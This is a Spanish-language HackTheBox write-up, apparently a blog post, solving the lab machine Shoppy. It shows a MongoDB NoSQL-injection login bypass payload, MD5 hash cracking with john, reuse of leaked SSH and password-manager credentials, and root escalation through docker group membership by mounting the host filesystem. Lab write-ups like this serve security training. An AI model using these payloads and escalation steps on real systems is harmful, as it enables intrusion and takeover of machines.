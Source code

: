 ```yaml
---
title: HackTheBox - Shoppy
categories: [Linux]
tags: [HackTheBox]
image: shoppy.png 
img_path: /assets/HTB/Shoppy/
---
```


En este post voy a explicar como resolver la máquina Shoppy de [Hack The Box](https://app.hackthebox.com/machines/Shoppy), en la cual vamos a estar bypasseando un panel de login mediante una ```inyección NoSQL``` y para la escalada de privilegio nos aprovecharemos de que estamos en el grupo ```Docker```.

## Escaneo de puertos

```
# nmap -p- -sS --min-rate 5000 -sCV -oN nmap -n -Pn 10.10.11.180
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-12 13:35 -03
Nmap scan report for 10.10.11.180
Host is up (0.51s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp   open  http     nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Si intentamos ingresar al servidor web que está corriendo en el puerto 80, nos redirigirá a ```shoppy.htb```, vamos a agregarlo a nuestro archivo ```/etc/hosts```.

```
$ echo "10.10.11.180   shoppy.htb" >> /etc/hosts
```

# Enumeración

Al ingresar a ```shoppy.htb``` veremos esto.

<img src="shoppy-pagina.png">

Si hacemos fuzzing, descubriremos un directorio llamado ```/admin``` el cual nos redirigirá a ```/login```.

```
$ dirsearch -u http://shoppy.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 220545

Output File: /home/onyx/.dirsearch/reports/shoppy.htb/-_22-12-12_14-17-42.txt

Error Log: /home/onyx/.dirsearch/logs/errors-22-12-12_14-17-42.log

Target: http://shoppy.htb/

[14:17:43] Starting:
[14:17:46] 302 -   28B  - /admin  ->  /login
[14:17:46] 200 -    1KB - /login
```

Si lo observamos desde la web podemos ver un panel para iniciar sesión.

<img src="shoppy-login.png">

Este panel los podemos bypassear haciendo uso de la siguiente ```inyección NoSQL``` de ```MongoDB```: ```admin'||'1==1```.

<img src="inyeccion-nosql.png">

Una vez que hemos iniciado sesión, vemos un panel de administración, si ponemos el payload anteriormente usado para bypassear el panel de login en el buscador nos da una opción de exportar el resultado, en este resultado veremos 2 usuarios y sus respectivos hashes, los cuales vamos a intentar romper usando la herramienta john.

<img src="export-data.png">

```
$ echo "admin:62db0e93d6d6a999a66ee67a" > hashes
$ echo "josh:6ebcea65320589ca4f2f1ce039975995" >> hashes
$ john -w:/usr/share/wordlists/rockyou.txt hashes --format=Raw-MD5

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
remembermethisway (josh)
1g 0:00:00:00 DONE (2022-12-12 14:43) 14.28g/s 11602Kp/s 11602Kc/s 11602KC/s renato1989..reiji
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Sí hacemos fuzzing para descubrir subdominios, encontraremos el siguiente: ```mattermost.shoppy.htb```, este subdominio también debemos agregarlo al archivo ```/etc/hosts```

```
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb" -fs 169 -t 100

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.shoppy.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 169
________________________________________________

mattermost              [Status: 200, Size: 3122, Words: 141, Lines: 1, Duration: 387ms]
```
# Ganada de acceso

Si le echamos un vistazo, podremos ver que hay otro ```panel de login```, en el cual ```podemos utilizar las credenciales anteriormente obtenidas```, una vez estemos conectados veremos una conversación en la cual nos dan las ```credenciales``` para conectarnos por ```SSH```.

<img src="credenciales-ssh.png">

```
$ ssh jaeger@10.10.11.180
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.180' (ED25519) to the list of known hosts.
jaeger@10.10.11.180's password: Sh0ppyBest@pp!


Last login: Mon Dec 12 12:07:16 2022 from 10.10.16.26
jaeger@shoppy:~$ cat user.txt
a3d**************************1f3
```

# Enumeración del sistema
Si listamos nuestros privilegios de sudoers, veremos que podemos ejecutar el binario ```/home/deploy/password-manager``` como el usuario ```deploy```.

```
jaeger@shoppy:~$ sudo -l
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager

jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: 1234
Access denied! This incident will be reported !
```

Si le hacemos un cat al binario, y ordenamos el output, veremos que la contraseña se filtra, la cual es ```Sample```.

```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

Al usar la contraseña filtrada, el programa nos reveló la contraseña del usuario deploy, vamos a convertirnos en ese usuario.  

```
jaeger@shoppy:~$ su deploy
Password: Deploying@pp!
deploy@shoppy:/home/jaeger$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```
# Escalada de privilegios

Viendo el output del comando id, vemos que estamos en el grupo ```docker```, si lo buscamos en la página de [GTFObins](https://gtfobins.github.io/gtfobins/docker/#shell) podemos ver que hay una manera de lanzarnos una shell como el usuario root.

```
deploy@shoppy:/home/jaeger$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)

deploy@shoppy:/home/jaeger$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# cat /root/root.txt
3e1**************************7b1
```
